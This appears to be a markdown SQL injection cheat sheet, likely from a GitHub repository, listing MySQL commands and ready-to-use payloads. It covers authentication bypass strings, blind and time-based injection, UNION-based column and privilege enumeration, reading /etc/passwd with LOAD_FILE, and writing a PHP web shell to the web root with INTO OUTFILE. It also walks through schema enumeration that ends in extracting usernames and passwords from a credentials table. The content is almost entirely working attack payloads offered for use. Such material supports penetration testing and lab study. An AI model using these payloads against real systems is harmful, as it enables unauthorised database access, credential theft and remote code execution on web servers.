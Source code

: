 
### MySQL Syntax
Here are some common commands for MySQL to use during injection testing.

##### Login Through CLI
```CLI
mysql -u USERNAME -p
```
```CLI
mysql -u USERNAME -pPASSWORD_nospace_with_p
```
Specifying host:
```CLI
mysql -u USERNAME -h domain.com -P 8888 -p
```

##### Basic SQL Commands

```SQL
SHOW DATABASES;
SHOW GRANTS;             -- Shows privileges
SHOW TABLES;
DESCRIBE <tablename>      -- Shows table structure with fields and data types
INSERT INTO logins(username, password) VALUES('administrator', 'adm1n_p@ss');
ALTER TABLE logins ADD newColumn INT;
SELECT * FROM logins where username = 'admin';
SELECT * FROM logins WHERE username LIKE 'admin%';
SELECT USER()
SELECT CURRENT_USER()
SELECT user from mysql.user
SELECT LOAD_FILE();  --used to read file
SELECT * from users INTO OUTFILE '/tmp/credentials';     -- INTO OUTFILE writes to the file pointed to. 
```


### Payloads
*Don't forget to URL encode if needed for 

#### In-Band SQLi

```SQL
admin' or 1=1;-- 
tom' or '1=1
‘ OR ’1=1
' OR 1=1;--
admin' or '1'='1'
admin OR 1=1
UNION SELECT username,password,null.null FROM users
admin' or 1=1 limit 1 --
```


#### Blind SQLi

Check database name:
```SQL
SELECT database()
```

Check individual Character:
```SQL
SELECT substring(database(),1,1)
```

This substring you can fuzz for single character in a specific query

```SQL
AND substring((SELECT password FROM users WHERE username='admin'),1,1='p')
```

```SQL
' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')>'a
```

Sleep timers:
```SQL
' || pg_sleep(10) --postgres

' AND SLEEP(10)
```

### Fingerprinting
Used to fingerprint the database.

#### Column Number Enumeration
```SQL
' order by 1-- 

cn' UNION select 1,2,3-- 

cn' UNION select 1,@@version,3,4--    --@@version returns data in that slot

cn' UNION SELECT 1, user(), 3, 4-- 

cn' UNION SELECT 1, user, 3, 4 from mysql.user-- 
```


#### Permissions Check

This checks if current user, in this case root has superuser privileges
```SQL
cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- 
```

This checks the rest of the privileges the user has, adding grantee is to specify user
```SQL
cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"--
```

This checks MySQL for write permissions. There are 2 columns, and the variable value if empty means full permissions. NULL means nothing.
```SQL
cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"--
```

#### Reading Files

```SQL
cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4--

cn' UNION SELECT 1, LOAD_FILE("/var/www/html/search.php"), 3, 4--
```

#### Writing Files

Look at configuration files of the database type to see where the root directory lives.
```SQL
cn' union select 1,'file written successfully!',3,4 into outfile '/var/www/html/proof.txt'--
```

For webshell.
```SQL
cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'--
```


#### Misc Schema Fingerprinting

Using INFORMATION_SCHEMA to get database information through injection
```SQL
SELECT SCHEMA_NAME FROM INFORMATION_SCHEMA.SCHEMATA;
```

This one checks which database the webapp is using:
```SQL
cn' UNION select 1,database(),2,3-- - 
```

This one looks for available databases:
```SQL
cn' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- 
```

This pulls table names from declared database:
```SQL
cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'--
```

Enumerate column names from table:
```SQL
cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'--
```

Extracts data (example from table dev in database credentials):
```SQL
cn' UNION select 1, username, password, 4 from dev.credentials--
```

